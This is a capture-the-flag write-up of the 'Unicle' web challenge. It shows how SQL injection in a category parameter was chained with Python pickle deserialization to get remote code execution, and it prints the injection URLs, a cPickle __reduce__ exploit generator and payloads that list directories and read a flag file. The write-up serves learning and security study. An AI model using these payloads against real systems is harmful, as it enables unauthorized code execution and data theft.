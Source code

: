 # Unicle (Web, 200pts)

## Problem

OSaaS is the new trend for 2016! Store your object directly in the cloud. Get rid of the hassle of managing your own storage for object with Osaas. Unickle currently offers a beta version that demonstrates how OSaaS will make the internet a better place... One object at a time!!

http://54.84.124.93/

![Unicle application]
(unicle01.png)

## Solution

After opening url, there's a simple HTML table with all stored objects. There's only one parameter I could manipulate - Category id (cat).

### Phase one - SQL Injection

Quick research revealed that 'cat' parameter is vulnerable to SQL Injection. Valid payload should contain standard characters used in attacks based on SQLi (like + as space, /**/ as comment and so on).

First payload I've used and was fine, looks like this one (I used four columns in _union_ statement, because displayed HTML table had four columns and I've assumed four is good number to start from :) ):

```bash
http://54.84.124.93/?cat=2%2b1+and+1=1+union+select+1,2,3,4/**/
```

After some attempts to read eg. MySQL version via _version()_ I've realized that this is not MySQL database and one of the payload returned such result in the browser:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22aaa%22,4/**/
```

![SQLi]
(unicle02.png)

That was something new for me, so I've tried some other payloads:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22Magic%20Box%22,4/**/
```

and the result in first row in column Value was: "could not find MARK", also this payload:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22{aa,bb}%22,4/**/
```

returned in the same place error message "invalid load key, '{'."

Quick session with Google told me that such error messages points I'm playing with Pickle Python module, which is used to serialization and deserialization of Python objects (https://docs.python.org/3.4/library/pickle.html). Two, maybe three blog posts later (linked at the end of this writeup) I had, more or less, some idea how can I use this vector to get the flag.


### Phase two - Remote Code Execution via Pickle module

As I've assumed that third column contains serialized Python object, which is deserialized on the backend side, I've started to create and inject simple exploits to get some valuable response.


I've used for this simple Pickle exploit generator (from Nelson Elhage's blog - https://twitter.com/nelhage - linked below):


```python
#!/usr/bin/python
import os
import cPickle
import base64

# Exploit that we want the target to unpickle
class Exploit(object):
    def __reduce__(self):
        return (eval, ("os.system('ls -l')",))

shellcode = cPickle.dumps(Exploit())
print shellcode
```


Generated exploit looks like this:


```bash
$ ./cpicke_exploit.py 
c__builtin__
eval
p1
(S"os.system('ls -l')"
p2
tp3
Rp4
.

```

To get this exploit working in injection payload, I had to use _%0A_ as a separator between every line of above output (to be sure that Pickle deserializes payload in right way).

Here's an example how to get result of _ls -l_ command:

```bash
http://54.84.124.93/?cat=1+and+1=2+union+select+1,2,%22c__builtin__%0Aeval%0A%28S%27os.listdir%28%27var/www%27%29%27%0AtR.%22,4/**/
```

And a result in Burp Repeater:

![ls -l result]
(unicle04.png)


So there's a _flag_ file directly in _/var/www_ directory, so let's get it!


```bash

http://54.84.124.93/?cat=1+and+1=2+union+select+1,2,%22c__builtin__%0Aeval%0A%28S%27os.popen%28%27cat%20/var/www/flag%27%29.readlines%28%29%27%0AtR.%22,4/**/
```

And the flag is:


![flag]
(unicle_flag.png)

## Summary

I've spent a lot of time on this task, because I had no experience with web application based on used technologies - as you can see _vulnerable.py_ file (which I saved just by curiosity, how the code looks like) - there's a **Flask** Python framework and **SQLAlchemy** simple ORM for Flask. Also I've never exploit Pickle code injection vulnerability in the wild before - so I've learnt a lot while working on this task. 


## Links

Exploiting Misuse of Python's "Pickle"
https://blog.nelhage.com/2011/03/exploiting-pickle/

Playing with Pickle Security    
https://lincolnloop.com/blog/playing-pickle-security/

Flask			
http://flask.pocoo.org/

SQLAlchemy		
http://flask-sqlalchemy.pocoo.org/2.1/